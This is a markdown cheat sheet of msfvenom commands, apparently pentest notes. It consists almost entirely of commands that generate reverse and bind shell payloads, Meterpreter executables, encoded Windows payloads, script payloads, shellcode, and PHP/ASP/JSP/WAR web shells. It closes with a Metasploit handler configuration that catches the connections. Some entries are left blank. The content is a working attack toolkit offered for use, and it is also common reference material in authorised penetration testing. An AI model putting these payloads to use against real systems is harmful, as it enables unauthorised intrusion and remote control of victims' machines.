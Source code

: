 ### msfvenom

#### Payloads list
```
msfvenom -l
```
#### Binaries
- Linux
  - Meterpreter reverse shell
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  - Meterpreter bind shell
    - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Bind shell
    - msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Reverse shell
    - 

- Windows
  - Meterpreter reverse shell
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  - Meterpreter bind shell
    - 
  - Reverse shell
    - msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - Bind shell
    -
  - Meterpreter encoded reverse shell 
    - msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
  
- Mac
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

#### Scripting Payloads
- Python
  - msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
- Bash
  - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
- Perl
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
  
#### Shellcode 
- Linux Based Shellcode
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Windows Based Shellcode
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Mac Based Shellcode
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
  
#### Web Payloads
- PHP
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
- ASP
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
- JSP
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
- WAR
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

#### Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
https://github.com/g0tmi1k/msfpc
